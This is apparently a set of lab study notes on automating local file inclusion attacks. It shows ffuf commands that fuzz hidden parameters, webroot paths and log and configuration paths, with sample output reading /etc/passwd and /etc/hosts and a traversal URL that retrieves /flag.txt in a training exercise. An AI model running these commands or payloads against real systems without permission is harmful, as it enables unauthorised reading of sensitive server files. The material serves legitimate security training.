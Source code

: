 # 🍬 Automation and Prevention

It's important to always fuzz a web app beceause the page may have other exposed parameters that are **not linked to any HTML forms**, and hence normal users would never access or unintentionally cause harm through.

fuzz the page for common `GET` parameters ->

```
ffuf -w /opt/useful/SecLists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?FUZZ=value' -fs 2287
```

And once we found a hidden param, we can do our LFI tests. A good wordlist is [LFI-Jhaddix.txt](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt), as it contains various bypasses and common files

```
ffuf -w /opt/useful/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=FUZZ' -fs 2287
```

With some output that would look like this:

```
..%2F..%2F..%2F%2F..%2F..%2Fetc/passwd [Status: 200, Size: 3661, Words: 645, Lines: 91]
../../../../../../../../../../../../etc/hosts [Status: 200, Size: 2461, Words: 636, Lines: 72]
...SNIP...
../../../../etc/passwd  [Status: 200, Size: 3661, Words: 645, Lines: 91]
```

We must also try and fuzz for `Server webroot path`, `server configurations file`, and `server logs`.

we can fuzz for the `index.php` file through common webroot paths, which we can find in this [wordlist for Linux](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-linux.txt) or this [wordlist for Windows](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-windows.txt). Depending on our LFI situation, we may need to add a few back directories (e.g. `../../../../`), and then add our `index.php` afterwords.

```
ffuf -w /opt/useful/SecLists/Discovery/Web-Content/default-web-root-directory-linux.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ/index.php' -fs 2287
```

and the output would be something like:

```shell-session
/var/www/html/          [Status: 200, Size: 0, Words: 1, Lines: 1]
```

To find **server logs and configuration paths,** we can use this [wordlist for Linux](https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Linux) or this [wordlist for Windows](https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Windows)

```shell-session
ffuf -w ./LFI-WordList-Linux:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ' -fs 2287
```

output:

```shell-session
<SNIP>
/etc/hosts              [Status: 200, Size: 2461, Words: 636, Lines: 72]
/etc/hostname           [Status: 200, Size: 2300, Words: 634, Lines: 66]
<SNIP>
```

{% hint style="info" %}
The most common LFI tools are [LFISuite](https://github.com/D35m0nd142/LFISuite), [LFiFreak](https://github.com/OsandaMalith/LFiFreak), and [liffy](https://github.com/mzfr/liffy).
{% endhint %}

_**Fuzz the web application for exposed parameters, then try to exploit it with one of the LFI wordlists to read /flag.txt**_

```
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u 'http://94.237.53.113:55545/index.php?FUZZ=value' -fs 2309
```

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
ffuf -w /usr/share/wordlists/seclists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://94.237.53.113:55545/index.php?view=FUZZ' -fs 1935
```

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1).png" alt=""><figcaption><p><a href="http://94.237.53.113:55545/index.php?view=../../../../../../../../../../../../../../../../../../../../../../flag.txt">http://94.237.53.113:55545/index.php?view=../../../../../../../../../../../../../../../../../../../../../../flag.txt</a></p></figcaption></figure>
